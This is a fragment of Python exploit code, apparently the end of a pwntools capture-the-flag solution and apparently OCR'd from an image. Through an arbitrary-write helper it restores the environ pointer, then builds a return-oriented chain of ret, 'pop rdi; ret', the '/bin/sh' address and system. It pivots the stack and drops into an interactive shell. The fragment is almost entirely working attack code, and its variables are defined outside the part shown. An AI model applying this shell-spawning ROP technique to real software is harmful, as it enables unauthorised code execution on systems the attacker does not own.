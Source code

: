 ```python
        stack -= 0x140
        log.info('stack : ' + hex(stack))
        #restore environ
        aaw((mem_start - (libc_start + unsafe_state + 0x10)) // 8, mem + 0x110)
        aaw((mem - environ + 1) // 8, org_environ >> 8)
        aaw((mem - environ) // 8, org_environ)
        # add rsp, 0x28; | ret(for stack align) | ... | pop rdi; ret; | /bin/sh address | system
        aaw((stack - mem + 0x30) // 8, ret, neg = False)
        aaw((stack - mem + 0x38) // 8, pop_rdi, neg = False)
        aaw((stack - mem + 0x40) // 8, binsh, neg = False)
        aaw((stack - mem + 0x48) // 8, system, neg = False)
        aaw((stack - mem) // 8, add_rsp, neg = False)
        p.interactive()
        exit(0)
    except:
        p.close()

```
